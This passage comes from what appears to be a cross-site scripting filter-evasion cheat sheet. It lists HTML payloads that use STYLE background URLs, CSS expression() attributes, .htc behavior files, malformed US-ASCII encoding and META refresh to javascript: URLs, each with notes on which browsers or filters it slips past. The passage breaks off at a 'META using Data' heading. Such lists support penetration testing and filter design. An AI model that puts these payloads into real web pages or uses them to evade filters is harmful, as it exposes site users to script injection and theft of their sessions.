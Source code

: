 ## STYLE Tag using Background-image

```html
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

## STYLE Tag using Background

```html
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>`
`<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

## Anonymous HTML with STYLE Attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

```html
<XSS STYLE="xss:expression(alert('XSS'))">
```

## Local htc File

This is a little different than the above two cross site scripting vectors because it uses an .htc file which must be on the same server as the XSS vector. The example file works by pulling in the JavaScript and running it as part of the style attribute:

```html
<XSS STYLE="behavior: url(xss.htc);">
```

## US-ASCII Encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.

```html
`¼script¾alert(¢XSS¢)¼/script¾`
```

## META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

### META using Data
